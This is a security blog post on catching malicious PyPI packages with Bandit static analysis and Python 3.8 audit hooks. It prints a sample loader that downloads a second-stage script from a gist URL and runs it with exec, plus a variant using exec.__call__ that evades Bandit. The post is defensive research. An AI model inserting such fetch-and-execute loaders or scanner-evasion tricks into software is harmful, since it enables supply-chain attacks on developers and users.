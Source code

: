 ```yaml
---
layout: post
title:  "Using Python Bandit to find dodgy packages"
date:   2020-01-11 12:00:00 +0000
categories: python codereview
---
```


# Overview
[Myself](https://www.youtube.com/watch?v=V1_mg5cZsd8) and [plenty](https://medium.com/@bertusk/detecting-cyber-attacks-in-the-python-package-index-pypi-61ab2b585c67) of [others](https://snyk.io/blog/malicious-packages-found-to-be-typo-squatting-in-pypi/) have spoken about the increasing amount of
malicious packages masquarading as legitimate in Python's PyPi package repository. These packages end up as dependecies to legitimate programs, compromising developers and end users.

A common pattern in these packages is to download a 2nd stage script from the web, then passing it into `eval` or `exec` to execute the 2nd stage, for example:
```python

import urllib.request
script = urllib.request.urlopen("https://gist.githubusercontent.com/pathtofile/0e26c9a82c08c4da44f5d2c32db85005/raw").read()
exec(script)   # script == "print('gotem')"
```

# Detection
One way to detect this type of attack to scan packages using [PyCQA's Bandit](https://github.com/PyCQA/bandit). This is a static analysis tool, and can be used to scan projects and files to security issues. One of the issues it can scan for it `B307 - use of exec`. Running it over a file containing the above snipped produces the following output
```bash
$> bandit suspicious.py
[main]  INFO    profile include tests: None
[main]  INFO    profile exclude tests: None
[main]  INFO    cli include tests: None
[main]  INFO    cli exclude tests: None
[main]  INFO    running on Python 3.8.0
[node_visitor]  INFO    Unable to find qualified name for module: suspicious.py
Run started:2020-01-12 09:32:50.575932

Test results:
>> Issue: [B310:blacklist] Audit url open for permitted schemes. Allowing use of file:/ or custom schemes is often unexpected.
   Severity: Medium   Confidence: High
   Location: suspicious.py:2
   More Info: https://bandit.readthedocs.io/en/latest/blacklists/blacklist_calls.html#b310-urllib-urlopen
1       import urllib.request
2       script = urllib.request.urlopen("https://gist.githubusercontent.com/pathtofile/0e26c9a82c08c4da44f5d2c32db85005/raw").read()
3       exec(script)   # prints 'gotem'

--------------------------------------------------
>> Issue: [B102:exec_used] Use of exec detected.
   Severity: Medium   Confidence: High
   Location: suspicious.py:3
   More Info: https://bandit.readthedocs.io/en/latest/plugins/b102_exec_used.html
2       script = urllib.request.urlopen("https://gist.githubusercontent.com/pathtofile/0e26c9a82c08c4da44f5d2c32db85005/raw").read()
3       exec(script)   # prints 'gotem'

--------------------------------------------------

Code scanned:
        Total lines of code: 3
        Total lines skipped (#nosec): 0

Run metrics:
        Total issues (by severity):
                Undefined: 0.0
                Low: 0.0
                Medium: 2.0
                High: 0.0
        Total issues (by confidence):
                Undefined: 0.0
                Low: 0.0
                Medium: 0.0
                High: 2.0
Files skipped (0):
```

We can see it picked up on two things:
1. The use of `urllib.request.urlopen` to get data from the internet
2. The use of `exec`

Both of these things might be legitimate: If you use a tool such as my [Bandit Scan](https://github.com/pathtofile/Bandit-Scan) to scan PyPi,
you'll quickly see that plenty of legitimate packages use for `urlopen` and `exec` all the time.

Bandit does have a very useful `--baseline` option, that enables you compare a package to a "trusted good" version.
This enables developers to scan for any changes to dependecies, and only investigate if this change, drastically reducing the noise.

# Evasion
Bandit does currently suffer from one flaw however. If we instead change our dodgy code to:
```python
sneaky = 'import urllib.request; script = urllib.request.urlopen("https://gist.githubusercontent.com/pathtofile/0e26c9a82c08c4da44f5d2c32db85005/raw").read(); exec(script)'
exec.__call__(sneaky)
```

And run bandit again, we get:
```bash
$>bandit suspicious_sneaky.py
[main]  INFO    profile include tests: None
[main]  INFO    profile exclude tests: None
[main]  INFO    cli include tests: None
[main]  INFO    cli exclude tests: None
[main]  INFO    running on Python 3.8.0
[node_visitor]  INFO    Unable to find qualified name for module: suspicious_sneaky.py
Run started:2020-01-12 09:34:24.153035

Test results:
        No issues identified.

Code scanned:
        Total lines of code: 2
        Total lines skipped (#nosec): 0

Run metrics:
        Total issues (by severity):
                Undefined: 0.0
                Low: 0.0
                Medium: 0.0
                High: 0.0
        Total issues (by confidence):
                Undefined: 0.0
                Low: 0.0
                Medium: 0.0
                High: 0.0
Files skipped (0):
```

Our code is now listed as benign by Bandit.
This is due to Bandit only looking for direct uses of the `exec` function, and not us calling the function's internal
`__call__` function (which effectively does the same thing).

I currently have a [pull request](https://github.com/PyCQA/bandit/pull/552) to fix this, which will also flag any other uses of `__call__`,
as this is not usual to do.

# Python 3.8 Audit Hooks
On top of static analysis, using Python 3.8's audit hooks to analyse code as it runs would also surface the dodgy behaviour.

If you subscribe the python audit hook, such as using my [PyAuditLogger](https://github.com/pathtofile/pyauditlogger),
and run the `suspicious_sneaky.py` file, you will get (amungst other things) these events:
```xml
<EventData>
  <Data>PID: 15744</Data> 
  <Data>Commandline: python.exe suspicious_sneaky.py</Data> 
  <Data>Event: compile</Data> 
  <Data>b'print("gotem")'</Data> 
  <Data>'<string>'</Data> 
</EventData>

<EventData>
  <Data>PID: 15744</Data> 
  <Data>Commandline: python.exe suspicious_sneaky.py</Data> 
  <Data>Event: socket.connect</Data> 
  <Data><socket.socket fd=832, family=AddressFamily.AF_INET, type=SocketKind.SOCK_STREAM, proto=0></Data> 
  <Data>('151.101.64.133', 443)</Data> 
</EventData>

<EventData>
  <Data>PID: 15744</Data> 
  <Data>Commandline: python.exe suspicious_sneaky.py</Data> 
  <Data>Event: socket.getaddrinfo</Data> 
  <Data>'gist.githubusercontent.com'</Data> 
  <Data>443</Data> 
  <Data>0</Data> 
  <Data>1</Data> 
  <Data>0</Data> 
</EventData>
```

Highlighting in plain-view we connected to `gist.githubusercontent.com`, got some data from it, and eventually ran `print("gotem")`.
The downside to the Audit hooks is again fiding the interesting things in the sheer volume of data.
But only looking at the `compile`, `socket`, and `exec` events could be a good place to start, especially if events going into a SIEM.

# Conclusion
By combining dynamic and static code analysis, we stand a good chance of detecting suspicious beheaviour in Python Packages.
But there is a real and ongoing challenge of finding the dodgy-needle in the haystack that is millions of packages across PyPi.
